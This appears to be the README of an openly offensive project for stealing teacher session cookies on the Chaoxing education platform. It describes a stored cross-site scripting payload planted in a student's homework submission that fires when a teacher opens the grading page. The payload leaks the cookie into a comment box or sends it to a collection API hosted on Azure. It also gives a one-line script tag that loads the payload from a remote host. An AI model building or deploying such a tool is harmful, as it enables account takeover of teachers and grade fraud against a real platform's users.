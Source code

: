 ## Doc

### ver 1.0
    a set of js injection tools for steal account cookies of chaoxing platform

- ### ChaoXingAPI
    a restful api for teacher cookies

    models compoents:

        name[string]

        cookie[string]

        time[string]

    already configered for publishing to azure

    `start point: ***.***.***/api/teachercookies`

    ### `remember to set the CSOR policy in app service setting`

- ### payloads.js
    The js code to inject in the homework box in submit page and it will execute when teacher open the homework checking page.
    It will dump the cookie in two ways

    - inject the cookie in text form as html comment in the teacher comment box.
    So the cookie can be lookup in the teacher comment box. [ implemented in stt function ]

    - the second function disabled by default.
    To enable it,modify the server url and uncomment the line that execute the function. [ implemented in sendInfoToServer function ]


- RoadMap
    - improve the inmemory database to delete the expired cookie automatically. [ important ]
    - add admin page for managering cookie itemes stored on server better. [ important ]
    - embed js code into api project itself.


- Tips
  
  Js code can be hosted on server and inject one line of code below to simplify the process.
  - ```<script src="https://www.***.***/***.js"></script>```
